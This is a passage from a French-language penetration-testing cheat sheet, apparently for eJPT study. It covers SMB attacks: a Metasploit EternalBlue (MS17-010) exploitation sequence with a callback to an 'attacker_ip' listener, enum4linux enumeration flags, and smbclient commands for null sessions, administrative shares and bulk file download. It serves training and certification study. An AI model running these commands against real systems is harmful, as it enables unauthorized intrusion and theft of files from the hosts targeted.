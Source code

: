 ```bash
# 5. Si EternalBlue détecté → EXPLOITATION
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set LHOST attacker_ip
check
exploit
```

---

## 🔍 5. Outils tiers essentiels

### enum4linux (INCONTOURNABLE eJPT)
```bash
# Énumération complète
enum4linux target

# Options spécifiques
enum4linux -a target                    # Tout énumérer
enum4linux -U target                    # Utilisateurs seulement
enum4linux -S target                    # Partages seulement
enum4linux -G target                    # Groupes seulement
enum4linux -P target                    # Policy password
enum4linux -o target                    # OS information
enum4linux -A target                    # Agressif (tout)

# Avec credentials
enum4linux -u user -p password target
enum4linux -u user -p password -a target
```

### smbclient (Client SMB natif)
```bash
# Lister les partages
smbclient -L target
smbclient -L target -N                   # Null session
smbclient -L target -U username

# Se connecter à un partage
smbclient //target/share
smbclient //target/C$ -U administrator
smbclient //target/IPC$ -N               # IPC avec null session

# Commandes dans smbclient
ls                                       # Lister fichiers
cd directory                            # Changer répertoire
get filename                            # Télécharger fichier
put filename                            # Uploader fichier
mget *                                   # Télécharger tout
prompt off                              # Désactiver prompts
recurse on                              # Mode récursif
```
